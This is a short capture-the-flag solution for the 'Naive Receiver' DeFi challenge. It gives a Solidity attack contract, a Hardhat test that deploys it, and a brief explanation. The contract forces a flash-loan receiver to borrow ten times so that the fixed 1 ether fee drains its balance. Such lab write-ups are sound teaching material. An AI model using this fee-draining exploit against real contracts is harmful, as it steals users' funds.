 # 2 - Naive Receiver

## &#x20;Solution

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./NaiveReceiverLenderPool.sol";
import "./FlashLoanReceiver.sol";

contract AttackNaiveReceiver {
    NaiveReceiverLenderPool pool;
    FlashLoanReceiver receiver;

    constructor(NaiveReceiverLenderPool _pool, FlashLoanReceiver _receiver) {
        pool = _pool;
        receiver = _receiver;
    }

    function attack() external {
        for (uint256 i = 0; i < 10; i++) {
            pool.flashLoan(address(receiver), 1 ether);
        }
    }
}

```

```javascript
it('Exploit', async function () {
  /** CODE YOUR EXPLOIT HERE */
  const AttackNaiveReceiverFactory = await (await ethers.getContractFactory('AttackNaiveReceiver')).connect(attacker);
  const attackNaiveReceiver = await AttackNaiveReceiverFactory.deploy(this.pool.address, this.receiver.address);
  await attackNaiveReceiver.deployed();
  await attackNaiveReceiver.attack();
});
```

No matter how much **`FlashLoanReceiver`** borrows from **`NaiveReceiverLenderPool`,** it has to pay `1 ether` for fee.

So we simply make it borrow `1 ether` 10 times to drain its fund.

Done! 😎
